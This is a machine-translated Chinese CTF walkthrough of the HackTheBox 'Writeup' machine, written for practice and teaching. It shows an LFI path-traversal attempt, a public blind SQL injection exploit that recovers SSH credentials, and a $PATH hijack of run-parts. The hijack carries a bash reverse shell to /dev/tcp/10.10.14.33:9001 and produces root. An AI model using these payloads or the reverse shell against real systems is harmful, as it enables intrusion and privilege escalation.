# HacktheBox —记录

> 原文：<https://infosecwriteups.com/hackthebox-writeup-2978c1639fb4?source=collection_archive---------0----------------------->

这是一篇关于我如何从 HacktheBox 解决 Writeup 的文章。


[https://www.hackthebox.eu/home/machines/profile/192](https://www.hackthebox.eu/home/machines/profile/192)

[Hack the Box](http://hackthebox.eu) 是一个在线平台，你可以在这里练习渗透测试技能。

像往常一样，我试图解释我是如何从机器上理解这些概念的，因为我想真正理解事物是如何工作的。所以请，如果我误解了一个概念，请让我知道。

# 关于盒子:

Writeup 是 HacktheBox 上的简易评级机。这是一个相对简单的盒子，向您介绍$PATH 劫持的概念。为了获取用户，我利用 CMS 制造简单漏洞来获取 SSH 的凭证。然后，我创建了一个脚本，其中 run-parts 被设置为 run，当有人 SSH 进入该框时就会执行该脚本。

# 侦察:

我首先通过调用命令运行初始 nmap 扫描，将其保存到我的 nmap 目录:

```
nmap -sV -sC -oA nmap/initial 10.10.10.138
```

输出是:



然后我检查 http 和 robots.txt:


在网页中，一个横幅暗示有某种类型的 DoS 保护。这意味着我们不能在没有预防措施的情况下对目录进行强制或模糊处理。另外，请注意 writeup.htb 域。我可以将它添加到我的/etc/hosts 中，检查机器上是否实现了某种类型的[虚拟主机](https://httpd.apache.org/docs/2.4/vhosts/examples.html)。



向下滚动页面，我可以注意到可能有一个备份文件，我们以后可以使用。

## 检查机器人. txt

查 [robots.txt](https://en.wikipedia.org/wiki/Robots_exclusion_standard) ，有一个目录叫“writeup”。



基本上，标记为不允许的内容可以防止搜索引擎等网络爬虫在这些目录/文件上“爬行”。访问/writeup 并检查其来源，它使用了一个名为 CMS Made Simple 的内容管理系统。



## **CMS 制作简单**

检查 URL，页面参数等于取决于你访问的文章的名称


然后，我尝试在页面参数上设置一个公共 LFI

```
view-source:[http://10.10.10.138/writeup/index.php?page=../../../../../../../../etc/passwd](http://10.10.10.138/writeup/index.php?page=../../../../../../../../etc/passwd)
```

输出是:



# **获取用户**

看到它不起作用，我决定继续前进。由于我看到了 CMS 的使用，我检查 searchsploit 来检查是否有我可以利用的漏洞。



因为有很多漏洞，所以我决定在网上查找最近的漏洞，然后发现了这个:

[https://packets storm security . com/files/152356/CMS-Made-Simple-SQL-injection . html](https://packetstormsecurity.com/files/152356/CMS-Made-Simple-SQL-Injection.html)

看到这个漏洞也列在 searchsploit 结果中，我将它复制到我的工作目录中进行尝试。



检查其用法:

```
root@kali:~/Documents/htb/boxes/writeup/new# python exploit.py 
[+] Specify an url target
[+] Example usage (no cracking password): exploit.py -u [http://target-uri](http://target-uri)
[+] Example usage (with cracking password): exploit.py -u [http://target-uri](http://target-uri) --crack -w /path-wordlist
[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based.
```

由于该漏洞是基于时间的盲 SQL 注入，我记下了时间，以便在需要时进行调整:



按照它的用法，我然后尝试利用:

```
python exploit.py -u [http://10.10.10.138/writeup](http://10.10.10.138/writeup) --crack -w /usr/share/wordlists/rockyou.txt
```

输出是:



使用用户名 **jkr** 和密码 **raykayjay9** ，我试着 SSH 进入这个盒子，它成功了:



# 获取根

然后我检查 SUID 二进制文件:

```
jkr@writeup:/home$ find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/mount
/bin/ping
/bin/umount
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

因为没有什么特别的，所以我运行 ps aux，看到一个 cleanup.pl 文件以 UID=0 运行，这意味着该进程是由 root 运行的。然后，我使用 pspy64 监控后台运行的进程:



当我最初解决这台机器时，我在免费服务器上。运行 pspy64 时，我看到有一个 run-parts 二进制文件由 root 运行。

## 运转零件

基本上，run-parts 在一个目录中运行脚本或程序。因为它运行/etc/update-motd.d 目录下的文件，所以我尝试编写一个脚本，如果它被执行，它将 ping 我。



因为我没有写权限，所以我试着分解并理解这一行:

```
sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd
.d > /run/motd.dynamic.new
```

> sh -c:运行命令，在本例中是/usr/bin/env
> 
> env:在修改后的环境中运行程序，其中-i 表示在空环境中启动，为 PATH 的设置让路
> 
> PATH=/usr/local/sbin。。。:将/usr/local/sbin 设置为运行不带前缀的命令时的优先搜索位置。/，最后一个选项是/bin
> 
> run-parts:在它后面的目录下运行脚本，在本例中是/etc/update-motd.d，将其输出管道化到/run/motd.dynamic.new
> 
> lsbsysinit:基本上表示脚本名称不能以结尾。dpkg-旧的或。dpkg-dist or。dpkg-新的或。dpkg-tmp

所以每次我 SSH 的时候，上面的脚本都会被执行。因为/usr/local/sbin 被设置为优先路径，所以我试着写一个文件/usr/local/sbin/我首先尝试使用一个执行 ping 命令的脚本:

```
#!/bin/bashping -c 2 10.10.14.33
```

你可以在下面的截图中看到，我能够从 writeup.htb(10.10.10.138)获得 ping。这表明我有命令执行。



然后我编辑运行部分的内容:

```
#!/bin/bashbash -i >& /dev/tcp/10.10.14.33/9001 0>&1
```

设置我的监听器:

```
ncat -nlvp 9001
```

将运行部分脚本复制到/usr/local/sbin/:

```
cp run-parts /usr/local/sbin/run-parts
```

当我进入盒子后，我得到了一个外壳:



我现在可以读 root.txt 了..

```
root@writeup:/root# cat root.txt
cat root.txt
**eeba47f60....**
```

我还检查了/root/bin 下的 cleanup.pl 脚本:



这是一个避免剧透的清理脚本。请注意，在长脚本之后有一个 run-parts—lsbsysinit/etc/update/motd . d。



分解一下，我还查了什么是/etc/update-motd.d:

```
Executable scripts in /etc/update-motd.d/* are executed by [**pam_motd**](http://manpages.ubuntu.com/manpages/disco/en/man8/pam_motd.8.html)(8) as the root user at each  login,  and  this  information  is  concatenated in /run/motd.dynamic.  The order of script  execution  is  determined  by  the  [**run-parts**](http://manpages.ubuntu.com/manpages/disco/en/man8/run-parts.8.html)(8)  --lsbsysinit  option  (basically alphabetical order, with a few caveats).
```

其中 pam_motd 为:

```
pam_motd is a PAM module that can be used to display arbitrary motd (message of the day)files after a successful login.
```

这就解释了为什么我每次进入盒子都会触发这些。

这就是我如何从黑盒子开始写盒子的。我希望你能从这次演练中学到一些东西。干杯！🍺

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)